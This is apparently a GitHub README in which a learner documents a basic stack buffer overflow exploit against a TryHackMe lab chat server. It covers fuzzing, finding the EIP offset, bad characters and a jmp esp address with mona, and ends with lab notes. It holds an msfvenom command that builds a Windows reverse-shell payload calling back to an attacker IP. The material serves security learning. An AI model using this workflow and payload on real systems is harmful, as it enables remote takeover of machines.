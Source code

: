 # BoF
Buffer Overflow Script
(Typos exist)

We start with saying. This is just for documentation and me for learning Buffer Overflows.
I will explain in the script what is goning on instead of writing it here.
Sometimes I edit script 10 times to get it to work, and I do not want to update the README every time.

More details and step by step can be bound here: 
https://jensoroger.wordpress.com/2021/01/19/explain-in-my-own-way-how-to-do-basic-buffer-overflow-with-help-from-realtryhackme-bufferoverlow-hacking-infosec-linux4hackers-pentest-pentesting-redteam/

## Step 1 General about fuzzing
The goal here is to crash the application and make the application execute "our" code that we decide. You need to know how the application works, are login first and the something else that we want to fuzz (crash).

## Step 2 Finding the offset
The goal here is to get control of EIP in the stack, for that to happend we need to find the offset. 

### Step 2.1 (fuzz.py)
Crash the application with fuzz.py and see if EIP contains AAAA.
What is needed are in the script. 
ip, port, string

We also need to verify with ex. Immunity Debugger that EIP contains AAAA


### Step 2. Crash the application and find offset (payload1.py)
Here we want to try finding out if we can control the buffer
We create a payload that are random with pattern_create.rb and then verify if we can find the offset for example with Immunty Debugger.

ip, port, overflow, payload (random data), buffer

Immunity Debugger and mona are used for this

### Step 2.2 Verify the offset (payload2.py)
Here we just verify that all is correct. The EIP shall contain AAAA

ip, port, offsett, retn, payload, buffer, 

Immunity Debugger and mona are used for this

## Step 3 Find bad characters that we can not use in our all characters \x00  (payload3.py)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00"

!mona compare -f C:\mona\oscp\bytearray.bin -a "ESP"

 Message=Possibly bad chars: 02 04

## Step 3.1 Find characters minus 3.1 founded  characters (payload3.py edited)
ip, port, offsett, retn, payload = bad charachter, buffer

Immunity Debugger and mona are used for this

!mona bytearray -b "\x00\x02\x04"

!mona compare -f C:\mona\"procename"bytearray.bin -a "ESP"

Do this until you have Unmodified 

## Step 4 Finding jump adress (payload3.py)
In mona after step 3 and add the bad characters that you find.
!mona jmp -r esp -cpb "\x00\x02\x04"
Choose a nice adress in the list, if it do not work at the first time try one more in the list.

## Step 5 Creating the payload (payload4.py)
ip, port, offsett, retn, payload = buf, padding, buffer

Immunity Debugger and mona are used for this

Here you need to know what OS is running the application. It is hard to create a reverse shell from Windows machine with a payload for Linux.
Also the padding my need som ajustments.

Payload exemples that you can use the out put in the script
LHOST=Your attacker box IP
LPORT=What port will the victim use to connect to your attack box
-b= That is the bad characters that you will find in step 3
-f=The output will be in pyton, so we can add this payload to the script.

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

## Brainstorm from tryhackme
The main thing in this BoF was that the first thing that happens when you connect to the application on port 9999
is that a login appears.This has maximum 20 char. Tried first fuzzing that. But found out that this is not gonna happend.
When you enter a username and then you are getting a send message prompt and that is vulnerble.
So in our payload we need to sen Username and a payload.

##Fuzz
python2 ./fuzz.py 
Login with user name roger and fuzzing Chat with 100 bytes
.
.
Login with user name roger and fuzzing Chat with 2200 bytes
Could not connect to 172.21.21.28:9999

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500

##Payload 
Create Payload payload.py

!mona findmsp -distance 2500

Offset 2012

0 bad characters

msfvenom -p windows/shell_reverse_tcp LHOST=172.21.21.34 LPORT=4444 EXITFUNC=thread -b "\x00" -f py

Log data, item 11
 Address=625014DF
 Message=  0x625014df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\win7.INVID\Desktop\vulnerable-apps\chat server\essfunc.dll)

